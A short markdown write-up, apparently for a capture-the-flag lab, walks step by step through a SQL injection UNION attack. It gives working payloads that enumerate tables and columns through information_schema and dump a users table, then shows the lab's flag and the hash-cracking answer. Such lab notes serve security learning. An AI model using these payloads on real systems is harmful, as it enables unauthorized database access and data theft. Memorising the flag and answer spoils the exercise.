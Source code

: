 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
> * Input is data search using ID's, try tentative search with integer and then without

### Step 2
> * Confirm SQL vulnerabitlity with 1 = 1 or 1

### Step 3
> * Attack
> 1. Confirm number off return columns and data types
 > * trial and error:  
> _1 = 1 or 1 ORDER BY 1_...  
> _UNION SELECT ‘a’,NULL_...
>
> 2. Find tables within current database  
 >_1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_  
> **users**
>
>3. Find columns within desired table  
 >_1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_  
>**user_id,first_name,last_name,town,country,planet,Commentaire,countersign**
>4. Find data  
 >_1 and 1=2 union select 1,concat(user_id,first_name,last_name,town,country,planet,Commentaire,countersign) from users_  
 <br>**5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28**  
 <br>_MD5 DECRYPT-> 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo_  
 <br> _toLower -> FortyTwo => fortytwo_  
 <br>_Sh256 ENCRYPT -> fortytwo => **10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5**_  

https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
